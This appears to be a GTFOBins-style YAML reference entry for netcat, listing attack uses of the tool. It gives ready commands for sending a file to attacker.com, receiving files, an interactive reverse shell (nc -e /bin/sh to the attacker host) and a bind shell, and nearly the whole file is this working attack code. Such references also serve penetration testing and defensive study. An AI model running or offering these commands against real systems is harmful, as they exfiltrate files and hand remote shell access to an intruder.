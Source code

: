 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 12345 > "where_to_save"` on the attacker box to collect the file.
      code: |
        RHOST=attacker.com
        RPORT=12345
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file.
      code: |-
        LPORT=12345
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        RHOST=attacker.com
        RPORT=12345
        nc -e /bin/sh $RHOST $RPORT
  bind-shell-interactive:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
      code: |
        LPORT=12345
        nc -l -p $LPORT -e /bin/sh
---
```

